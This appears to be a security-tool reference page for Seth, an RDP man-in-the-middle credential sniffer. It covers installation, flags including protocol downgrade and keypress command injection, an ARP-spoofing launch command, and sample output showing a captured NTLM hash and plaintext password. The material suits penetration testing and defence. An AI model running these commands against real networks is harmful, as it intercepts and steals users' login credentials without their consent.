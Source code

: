 ```yaml
---
title : "Seth"
# pre : ' '
description : "RDP credential sniffer - Man in the Middle RDP"
date : 2020-12-01T08:18:42+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Seth

RDP credential sniffer - Man in the Middle RDP

### Installation

Requirements:

```plain
sudo apt install dsniff tcpdump
```

```plain
git clone https://github.com/SySS-Research/Seth.git
```

### Usage

```plain
seth.py [-h] [-d] [-f] [-p LISTEN_PORT] [-b BIND_IP] [-g {0,1,3,11}]
               [-j INJECT] -c CERTFILE -k KEYFILE
               target_host [target_port]
```

### Flags

```plain
RDP credential sniffer -- Adrian Vollmer, SySS GmbH 2017

positional arguments:
  target_host           target host of the RDP service
  target_port           TCP port of the target RDP service (default 3389)

optional arguments:
  -h, --help            show this help message and exit
  -d, --debug           show debug information
  -f, --fake-server     perform a 'fake server' attack
  -p LISTEN_PORT, --listen-port LISTEN_PORT
                        TCP port to listen on (default 3389)
  -b BIND_IP, --bind-ip BIND_IP
                        IP address to bind the fake service to (default all)
  -g {0,1,3,11}, --downgrade {0,1,3,11}
                        downgrade the authentication protocol to this (default
                        3)
  -j INJECT, --inject INJECT
                        command to execute via key press event injection
  -c CERTFILE, --certfile CERTFILE
                        path to the certificate file
  -k KEYFILE, --keyfile KEYFILE
                        path to the key file
```

### Examples

#### Start MiTM attack

| Attacker IP | IP to ARP spoof for | Target RDP to connect to |
| :-: | :-: | :-: |
10.10.10.10 | 10.10.10.15 | 10.10.10.20

```plain
./seth.sh eth0 10.10.10.{10,15,20}
```

```plain
$ sudo ./seth.sh eth0 10.10.10.{10,15,20}
███████╗███████╗████████╗██╗  ██╗
██╔════╝██╔════╝╚══██╔══╝██║  ██║   by Adrian Vollmer
███████╗█████╗     ██║   ███████║   seth@vollmer.syss.de
╚════██║██╔══╝     ██║   ██╔══██║   SySS GmbH, 2017
███████║███████╗   ██║   ██║  ██║   https://www.syss.de
╚══════╝╚══════╝   ╚═╝   ╚═╝  ╚═╝
[*] Linux OS detected, using iptables as the netfilter interpreter
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Waiting for a SYN packet to the original destination...
[...]
[*] Cleaning up...
[*] Done
```

#### Capture of plaintext credentials

```plain
sudo ./seth.sh enp0s31f6 10.10.10.5 10.10.10.7 10.10.10.10
[*] Linux OS detected, using iptables as the netfilter interpreter
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Waiting for a SYN packet to the original destination...
[+] Got it! Original destination is 10.10.10.10
[*] Clone the x509 certificate of the original destination...
[*] Adjust iptables rules for all packets...
[*] Run RDP proxy...
Listening for new connection
Connection received from 10.10.10.7:53063
Warning: RC4 not available on client, attack might not work
Downgrading authentication options from 11 to 3
Listening for new connection
Enable SSL
johndo@example.com:::7c70ee2cd148b341:ee85ef730780002e00370030000000000000000000
Tamper with NTLM response
Downgrading CredSSP
Connection lost ([Errno 104] Connection reset by peer)
[...REDACTED...]
Connection received from 10.10.10.7:53067
Warning: RC4 not available on client, attack might not work
Enable SSL
Listening for new connection
'NoneType' object has no attribute 'getsockopt'
Hiding forged protocol request from client
.\johndo@example.com:Welkom1234
[*] Cleaning up...
[*] Done
```

#### Example capture of hashes

![Example](images/example.png)

### URL list

* [GitHub.com - Seth](https://github.com/SySS-Research/Seth)
